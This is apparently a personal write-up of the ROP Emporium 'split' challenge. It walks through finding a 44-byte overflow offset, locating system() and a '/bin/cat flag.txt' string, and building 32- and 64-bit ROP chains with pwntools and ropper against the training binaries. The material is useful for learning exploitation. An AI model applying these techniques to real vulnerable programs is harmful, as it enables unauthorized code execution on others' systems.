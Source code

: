 # split | ROP Emporium

```bash
kali@kali:~/Desktop/rop/split$ checksec --file=split32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   73) Symbols       No    0               3               split32
```

## Steps
### 1. Investigate binary
Thanks to reading the excercise information, I know that the system function is still present in the binary, and so is the command to cat the flag as a string. I can verify both of these things as follows.
```bash
kali@kali:~/Desktop/rop/split$ rabin2 -i split32
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x080483b0 GLOBAL FUNC       read
2   0x080483c0 GLOBAL FUNC       printf
3   0x080483d0 GLOBAL FUNC       puts
4   0x080483e0 GLOBAL FUNC       system
5   0x00000000 WEAK   NOTYPE     __gmon_start__
6   0x080483f0 GLOBAL FUNC       __libc_start_main
7   0x08048400 GLOBAL FUNC       setvbuf
8   0x08048410 GLOBAL FUNC       memset

kali@kali:~/Desktop/rop/split$ rabin2 -z split32
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
0   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt
```
I already know that these exercises follow a similar format, but to check the offset for any payload is still the same I can run a cyclic input through it.
```bash
kali@kali:~/Desktop/rop/split$ sudo dmesg -C
kali@kali:~/Desktop/rop/split$ python -c "from pwn import cyclic; print(cyclic(56))" | ./split32 
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
Segmentation fault
kali@kali:~/Desktop/rop/split$ sudo dmesg -t
split32[3131]: segfault at 6161616c ip 000000006161616c sp 00000000ffd03cb0 error 14 in libc-2.30.so[f7d0b000+1d000]
Code: Bad RIP value.
```
I already know 6161616c is 44, because that's the same as what it was last time.  
Finally I can check the binary out in r2. This time it can be seen there is a function called "usefulFunction" present.
```bash
0x08048430]> pdf @sym.usefulFunction
┌ 25: sym.usefulFunction ();
│           0x0804860c      55             push ebp
│           0x0804860d      89e5           mov ebp, esp
│           0x0804860f      83ec08         sub esp, 8
│           0x08048612      83ec0c         sub esp, 0xc
│           0x08048615      680e870408     push str.bin_ls             ; 0x804870e ; "/bin/ls" ; const char *string
│           0x0804861a      e8c1fdffff     call sym.imp.system         ; int system(const char *string)
│           0x0804861f      83c410         add esp, 0x10
│           0x08048622      90             nop
│           0x08048623      c9             leave
└           0x08048624      c3             ret
[0x08048430]>
```
Currently, the call to system() in this function is taking /bin/ls. So this will need to be replaced with the /bin/cat string.

### 3. Construct the payload
So what I would like to do is call the system function with the string "/bin/cat flag.txt" as the argument. To do this I need to construct a chain of these components together on the stack. This can be done due to the knowledge of the following information:  
- The system function is located at:    0x080483e0  
- The string I want is located at:      0x0804a030  

These get delivered following an offset of 44 bytes, with 4 bytes of padding between them to overwrite the base pointer position.

### 4. Run it against the binary to win
I can spew the input directly into the binary and get the flag.
```bash
kali@kali:~/Desktop/rop/split$ python solve.py manual | ./split32 
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault
```
For the automated exploit, I noted the flag's address appears different when debugging the automated solution in GDB. Luckily this was easily worked around using pwntool's built in elf classes and functions. I also got a chance to play with some of the ROP-specific stuff within pwntools which was cool (see solve.py).  
```bash
kali@kali:~/Desktop/rop/split$ python solve.py
[*] '/home/kali/Desktop/rop/split/split32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/kali/Desktop/rop/split/split32': pid 4697
[*] Loaded 10 cached gadgets for 'split32'
[*] 0x0000:        0x80483e0 system(0x804a030)
    0x0004:           'baaa' <return address>
    0x0008:        0x804a030 usefulString
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> 
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/home/kali/Desktop/rop/split/split32' (pid 4697)
```

## Differences in architecture
The x64 binary exploit requires some modification, not only due to larger memory addresses and a smaller payload offset, but also due to the fact that 64 bit binaries load arguments from registers and not the stack. This means employing the use of another gadget in order to get the "/bin/cat" string into a register.  
Referring to https://trustfoundry.net/basic-rop-techniques-and-tricks/ - I know an ideal gadget to get a value into a register is a "pop register; ret;" gadget.
Using ropper I can see what gadgets are available to me within the binary and narrow it down to those with a pop instruction.
```bash
ali@kali:~/Desktop/rop/split$ ropper --file split --search pop
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: split
0x00000000004007bc: pop r12; pop r13; pop r14; pop r15; ret; 
0x00000000004007be: pop r13; pop r14; pop r15; ret; 
0x00000000004007c0: pop r14; pop r15; ret; 
0x00000000004007c2: pop r15; ret; 
0x000000000040060b: pop rbp; mov edi, 0x601078; jmp rax; 
0x00000000004007bb: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x00000000004007bf: pop rbp; pop r14; pop r15; ret; 
0x0000000000400618: pop rbp; ret; 
0x00000000004007c3: pop rdi; ret; 				<------ This one!
0x00000000004007c1: pop rsi; pop r15; ret; 
0x00000000004007bd: pop rsp; pop r13; pop r14; pop r15; ret;
```
In addition to this gadget, I also need to collect the new addresses for the "/bin/cat" string and system function. Using the same techniques done for the x86 binary, the final locations for my rop chain items are (addresses cut down to 32 bit values):
- System function:	0x00400560  
- /bin/cat string:	0x00601060  
- pop rdi; ret:		0x004007c3  
  
Now I can modify my exploit to include the gadget which puts the "/bin/cat" string into rdi before calling system (see solve64.py).  
```bash
kali@kali:~/Desktop/rop/split$ python solve64.py manual | ./split
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault

kali@kali:~/Desktop/rop/split$ python solve64.py
[*] '/home/kali/Desktop/rop/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/kali/Desktop/rop/split/split': pid 2589
[*] Loaded 14 cached gadgets for 'split'
[*] 0x0000:         0x4007c3 pop rdi; ret
    0x0008:         0x601060 [arg0] rdi = usefulString
    0x0010:         0x400560 system
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> 
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/home/kali/Desktop/rop/split/split' (pid 2589)
```
